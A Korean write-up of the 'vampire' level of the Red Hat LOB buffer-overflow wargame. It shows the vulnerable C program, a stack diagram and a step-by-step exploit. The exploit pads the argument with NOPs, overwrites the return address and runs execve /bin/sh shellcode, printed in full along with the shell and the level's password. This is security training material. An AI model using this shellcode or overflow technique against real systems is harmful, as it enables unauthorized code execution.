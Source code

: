 ============================================================================================================
[redhat-lob] (9) vampire
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d;

        a [shape=box, label="dummy * 44 + (argv[1] address+4*i) + dummy * 100000 + shellcode"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="shellcode address"];
    }


|

Source Code
============================================================================================================


.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    main(int argc, char *argv[])
    {
        char buffer[40];

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
            printf("but it's not forever\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv    (4byte)  <- argv 주소
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- argv[1] value의 47번째 문자가 "\\xbf"이어야 함
- argv[1] value의 46번째 문자가 "\\xff"가 아니어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./vampire2 `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



|

exploit
============================================================================================================

argv[1]의 주소값 변경
------------------------------------------------------------------------------------------------------------

argv[1]의 주소가 "\\xbf\\xff"로 시작하기 때문에 argv[1]에 nop를 100000만큼 삽입하여 주소값을 "\\xbf\\xfe"로 시작하도록 한다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"+"\x90"*100000'`
    buffer : 0xbffe7460
    argv[1]: 0xbffe74d8

    Segmentation fault

|

RET를 argv[1] 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- dummy*40
    SFP     (4byte)  <- dummy*4
    RET     (4byte)  <- shellcode address
    argv[1] (4byte)  <- dummy*100000 + shellcode
    ----------------
    HIGH    
    ================

|


오버플로우시 RET를 shellcode를 삽입한 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

.. code-block:: console

    $ ./vampire `python -c 'print "\x90"*44 + "\xd8\x74\xfe\xbf" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒

    bash$ whoami
    vampire
    bash$ my-pass
    euid = 509
    music world

